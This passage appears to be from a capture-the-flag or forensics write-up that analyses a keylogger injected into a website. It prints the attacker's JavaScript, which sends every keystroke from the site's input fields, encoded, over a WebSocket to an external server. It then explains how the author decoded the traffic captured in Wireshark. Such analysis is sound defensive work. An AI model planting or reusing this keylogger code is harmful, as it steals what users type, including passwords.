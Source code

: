 ```js  
 ws.addEventListener("open", function(event) {  
   var message = navigator.userAgent;  
   ws.send(encode(message, key));  
   key2 = key.split("");  
   shuffle(key2, rand(hash(message)));  
   key2 = key2.join("");  
 });

 Array.from(document.getElementsByTagName("input")).forEach(function(e) {  
   e.addEventListener("keyup", function(v) {  
     ws.send(encode(Math.random().toString().slice(2) + " " + v.key, key2));  
   }, false);  
 });

}, false);

```

We can see that communication *client-server* is encoded
(`ws.send(encode(message, key))`) using two keys `key` and `key2`. Initially,
our key is equal to
`MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp` and then after
some _shuffling_ it transforms to `key2`. Also, the first message sent via
`sockets` is just client's `User-Agent` value, which is also used to transform
the `key`.

`User-Agent` is not a secret, because we can easily fetch it from `HTTP
headers`.

> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
> (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

To confirm that encode function returns the same encoded message as unmasked
packet from `Wireshark` I evaluated `encode()` function with `User-Agent`
value as the message and
`MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp` as the key. As
expected, the trial has succeeded.

> WebSocket:
> T4N8jgYZ5ChvnMJyKyAPCvwAcAmjAhVLt12DeE6SXJQxKsXyv3HL2xKXgASRLHpkDDYRxYQVJt1rNGH6KxyWkkK2gQep84LG33j5N1fzFaxDeXmKfcargKYanYq66KKs9U2XTWEerSwBMCPbsj7faMHQzSkNH

By looking at functions `hash`, `rand` and `shuffle` we see that there is no
any randomization made or any desire of reversing them. So, I just use them to
generate they transformed key `key2`.

The attacker attached a *keylogger* on every input on the site, which is
sending each pressed by user key to external server as an encoded message in
form of `ws.send("{random} {input_key}", key2)`.

I searched for `WebSockets` packets in `Wireshark` and I noticed that there
are packets of three lengths: *~219*, *~60*, *~85*. First ones are encoded
`User-Agent messages`, second - `pings` and the last ones are the ones I need
- `user input`.
